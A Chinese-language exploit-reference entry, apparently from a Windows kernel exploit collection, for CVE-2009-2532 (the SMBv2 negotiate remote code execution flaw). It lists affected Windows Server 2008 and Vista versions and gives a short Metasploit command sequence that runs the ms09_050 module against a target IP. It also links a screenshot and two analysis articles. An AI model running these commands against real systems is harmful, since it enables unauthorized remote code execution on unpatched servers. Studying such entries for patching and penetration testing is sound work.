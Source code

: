 ### CVE-2009-2532

#### 描述

无法正确处理SMB多协议协商请求数据包中的命令值，这使远程攻击者可以通过精心制作的SMBv2执行任意代码 数据包发送到服务器服务

#### 影响版本

| Product             | CPU Architecture | Version | Update | Tested             |
| ------------------- | ---------------- | ------- | ------ | ------------------ |
| Windows Server 2008 | X64/X86          |         | SP2    | &#10004; |
| Windows Server 2008 | X86/X64          |         |        |                    |
| Windows Vista       |                  |         | SP1    |                    |
| Windows Vista       |                  |         | SP2    |                    |
| Windows Vista       |                  |         |        |                    |

#### 利用方式

利用msf 测试系统Windows Server 2008 SP2 x86

```
use exploit/windows/smb/ms09_050_smb2_negotiate_func_index
set RHOSTS 192.168.1.13 #目标IP
run
```

![image-20200823134421895](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2009-2532_win2008_x86_msf.png?raw=true)

#### 分析文章
- https://www.giantbranch.cn/2017/08/26/Educatedscholar%E5%88%A9%E7%94%A8%E7%9A%84%E6%BC%8F%E6%B4%9Ems09-050%E5%88%86%E6%9E%90%E5%8F%8A%E5%85%B6%E5%88%A9%E7%94%A8%E7%9A%84shellcode%E5%88%86%E6%9E%90%E5%8F%8A%E4%B8%8Emsf%E5%88%A9%E7%94%A8%E5%AF%B9%E6%AF%94/
- https://zhuanlan.zhihu.com/p/27155431